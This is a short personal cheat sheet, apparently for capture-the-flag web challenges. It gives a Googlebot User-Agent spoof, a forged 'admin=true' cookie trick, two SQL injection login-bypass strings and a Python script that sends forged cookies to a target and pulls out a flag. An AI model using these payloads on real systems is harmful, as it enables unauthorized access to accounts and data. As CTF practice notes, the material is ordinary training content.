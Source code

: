 # Ch34tsh33t
My CheatSheet


*Always check the Http method needed. Below are the list of HTTP Methods*
-POST
-GET
-PUT
-PATCH
-DELETE

*Using Google as secret-agent*
headers = {
	'User-Agent': 'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'
}

*If No Login was provided but Admin login is available*
Try using cookie "admin" set it to "true"

*SQL Injection*
' OR '1'='1' --
' LIKE '%'; --







*Python Code To get http request*

#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}

r = requests.get('{TARGET IP}', data=params, cookies=jar)
source = r.text
print re.findall(r'(flag\{.+\})', source)[0]
